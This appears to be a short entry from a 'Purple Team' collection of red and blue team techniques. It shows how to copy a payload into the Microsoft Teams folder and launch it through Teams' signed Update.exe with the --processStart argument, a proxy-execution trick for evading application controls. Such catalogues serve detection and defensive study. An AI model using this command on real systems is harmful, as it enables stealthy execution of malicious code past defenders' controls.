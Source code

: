 # Purple Team - Set of techniques, tools and ideas related to Red & Blue Teams
https://twitter.com/MrUn1k0d3r/status/1143928885211537408?s=08
  Copy your payload into %userprofile%\AppData\Local\Microsoft\Teams\current\
    Then
  %userprofile%\AppData\Local\Microsoft\Teams\Update.exe --processStart payload.exe --process-start-args "whatever args"

